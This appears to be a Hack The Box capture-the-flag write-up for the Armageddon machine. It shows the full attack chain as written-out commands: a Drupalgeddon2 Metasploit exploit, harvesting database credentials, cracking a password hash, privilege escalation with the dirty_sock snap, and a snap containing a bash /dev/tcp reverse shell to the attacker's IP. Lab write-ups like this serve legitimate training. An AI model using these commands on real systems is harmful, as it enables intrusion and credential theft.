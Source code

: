 ```yaml
---
title: "HTB: Armageddon Writeup"
date: 2021-06-08T22:23:00-07:00
categories:
  - blog
  - writeup
  - htb
tags:
  - htb
  - htb easy
  - offsec
---
```


There are spoilers below for the Hack The Box box named Cap. Stop reading here if you do not want spoilers!!!

---

# Enumeration

## nmap

As always, beginning with an `nmap` of the box to determine what is open

```bash
$ cat nmap/armageddon.nmap
# Nmap 7.91 scan initiated Tue Jun  8 18:06:58 2021 as: nmap -sC -sV -oA nmap/armageddon 10.10.10.233
Nmap scan report for 10.10.10.233
Host is up (0.078s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jun  8 18:07:10 2021 -- 1 IP address (1 host up) scanned in 12.08 seconds
```

With only two ports open, looks like we'll be doing something with the web server.

## Web Server

Browsing to the webpage, it appears to be running Druple 7, after a bit of exploring and googling about the version, there appears to be something referred to as "Drupalgeddon", which I will explore next.

# Foothold

## Apache User

Looking into the "Drupalgeddon" vulnerability, Metasploit already has a package for it, since the server appears to be vulnerable, we can give it a try.

```bash
$ msfconsole -q -x "use exploit/unix/webapp/drupal_drupalgeddon2; set lhost 10.10.14.204; set rhost 10.10.10.233; run"
```

Which worked, first try! Granting us a shell as `apache`.

## brucetherealadmin User

Once in the Apache user, we can take a look at the `settings.php` file to locate the database username/password:

```bash
$ cat /var/www/html/sites/default/settings.php
...{snip}...
$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupal',
      'username' => 'drupaluser',
      'password' => 'CQHEy@9M*m23gBVj',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
...{snip}...
```

Looks like we now have a database login, trying that password for both `root` and `brucetherealadmin` results are unsuccessful, so neither of the users are reusing this password.

Moving on, we can try logging into the MySQL database, but given that we do not have an interactive session, we can't directly connect to MySQL and execute commands. However, we can execute a single query at a time from the CLI.

```bash
$ mysql -u drupaluser -p drupal -e "select * from users;"
password: CQHEy@9M*m23gBVj
...{snip}...
brucetherealadmin $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt admin@armageddon.eu
...{snip}...
```

Alright, looks like `brucetherealadmin` created an account on the Druple site, and this account has a password. I wonder if Bruce decided to reuse the password? Well, lets try and crack it first. JTR understands the Druple format, so we can throw this hash into JTR and see what comes up.

```bash
$ echo '$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt' > pass.txt
$ john --wordlist /usr/share/wordlists/rockyou.txt --format=Drupal7 pass.txt
```

Almost instantly, JTR returns with the found password for Bruce. Giving that a try with SSH, Success!

# Privesc

Once logged in as `brucetherealadmin`, the first thing to notice is that Bruce has access to install snap plugins as root:

```bash
$ sudo -l
...{snip}...
User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
```

What can we do with this?

After researching snap plugins, it looks like there's a "dirty_sock" exploit that may be able to be used to install a snap file and have it create a new user that has access to use sudo. Specifically the [dirty_sockv2.py](https://github.com/initstring/dirty_sock/blob/master/dirty_sockv2.py) which contains a snap payload already.

Grabbing the snap payload from the `dirty_sockv2.py` script and placing it into a text file and decoding it as such:

```bash
$ vim dirty.snap.b64
$ base64 -d dirty.snap.b64 > dirty.snap
```

Then, we can install this snap

```bash
$ sudo snap install dirty.snap --devmode
dirty-sock 0.1 installed
```

Well, that appears to have worked, lets give it a try...

```bash
$ su dirty_sock
Password: dirty_sock
[dirty_sock@armageddon brucetherealadmin]$ whoami
dirty_sock
```

Looks promising! Lets try and change to root

```bash
$ sudo su
[sudo] password for dirty_sock: dirty_sock
[root@armageddon brucetherealadmin]#
```

Great! We're now root!

# Note/observation

During the process of rooting this, I first looked into crafting my own snap plugin, and I was able to craft one by creating a `snap.yaml` file as such:

```bash
$ cat pingme/meta/snap.yaml
name: pingme
version: '0.1'
app:
    pingme:
        command: /usr/bin/ping -c 1 10.10.14.204
```

And building a snap installer with:

```bash
$ snapcraft pack pingme
...
$ sudo snap install pingme.snap --devmode
```

Which, once I installed the plugin I did successfully receive pings back to me

```bash
$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
00:45:51.901719 IP 10.10.14.1 > 10.10.14.204: ICMP host 10.10.10.233 unreachable, length 204
00:45:56.411439 IP 10.10.14.1 > 10.10.14.204: ICMP host 10.10.10.233 unreachable, length 204
```

However, when I moved on to attempting to set up a reverse shell:

```bash
$ cat rshell/meta/snap.yaml
name: rshell
version: '0.1'
app:
    rshell:
        command: /bin/bash -i >& /dev/tcp/10.10.14.204/9000 0>&1
$ snapcraft pack rshell
...
$ sudo snap install rshell.snap --devmode
```

I never received a reverse shell back to myself, so I'm not certain if I crafted the snap package correctly, but I suspect that there's a way to craft your own snap payload without using the pre-build one from the repository that I used previously.
